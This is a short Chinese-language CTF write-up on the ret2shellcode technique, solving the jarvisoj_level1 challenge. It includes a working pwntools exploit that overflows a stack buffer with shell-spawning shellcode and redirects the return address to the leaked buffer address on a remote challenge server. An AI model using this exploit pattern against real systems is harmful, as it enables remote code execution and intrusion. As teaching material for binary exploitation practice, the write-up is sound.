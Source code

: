 ```yaml
---
title: 【PWN】ret2shellcode
---
```


## 原理

篡改栈帧上的返回地址为攻击者手动传入的shellcode所在缓冲区地址，并且该区域有执行权限。
## 例题
jarvisoj_level1，可在jarvisoj网站中下载。首先使用checksec工具查看它开了啥保护措施，基本全关，栈可执行。

![1.jpg](/assets/wgpsec/images/ret2shellcode/1.jpg)

一样的使用ida查看一下该程序，在危险函数中，程序向我们输出了一个栈站上的地址因此我们可以朝buf写一段shellcode，然后
将返回地址覆盖为buf的地址。在pwntools中可以使用shellcraft.sh()写shellcode，再使用asm将其转换成机器码。

![2.jpg](/assets/wgpsec/images/ret2shellcode/2.jpg)

ida帮我们计算出来了buf字符串距离rbp有0x88个字节，由于ebp本身还占4个字节，所以溢出0x8c个字节后将返回地址修改为buf地址，python有
个自带的方法ljust可以将我们的shellcode长度补充为固定字节，期作用是使shellcode左对齐，然后不足长度补齐指定数据。

```python
from pwn import *

#p = process('./level1')
p = remote('pwn2.jarvisoj.com',9877)
s = p.recv()
addr = bytes.decode(s)[12:-2]

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x8c,b'A') + p32(int(addr,16))

p.sendline(payload)
p.interactive()
```